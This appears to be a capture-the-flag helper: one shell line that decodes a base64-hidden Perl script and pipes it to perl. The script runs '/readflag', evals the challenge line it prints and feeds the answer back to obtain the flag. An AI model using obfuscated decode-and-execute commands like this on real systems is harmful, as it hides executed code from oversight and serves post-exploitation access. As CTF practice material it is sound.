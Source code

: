 

echo 'dXNlIHN0cmljdDsKdXNlIElQQzo6T3BlbjM7CgpteSAkcGlkID0gb3BlbjMoXCpDSExEX0lOLCBcKkNITERfT1VULCBcKkNITERfRVJSLCAnL3JlYWRmbGFnJykgb3IgZGllICJvcGVuMygpIGZhaWxlZCAkISI7CgpteSAkcjsKCiRyID0gPENITERfT1VUPjsKcHJpbnQgIiRyIjsKJHIgPSA8Q0hMRF9PVVQ+OwpwcmludCAiJHIiOwokcj1ldmFsICIkciI7CnByaW50ICIkclxuIjsKcHJpbnQgQ0hMRF9JTiAiJHJcbiI7CiRyID0gPENITERfT1VUPjsKcHJpbnQgIiRyIjsKJHIgPSA8Q0hMRF9PVVQ+OwpwcmludCAiJHIiOw=='|base64 -d | perl
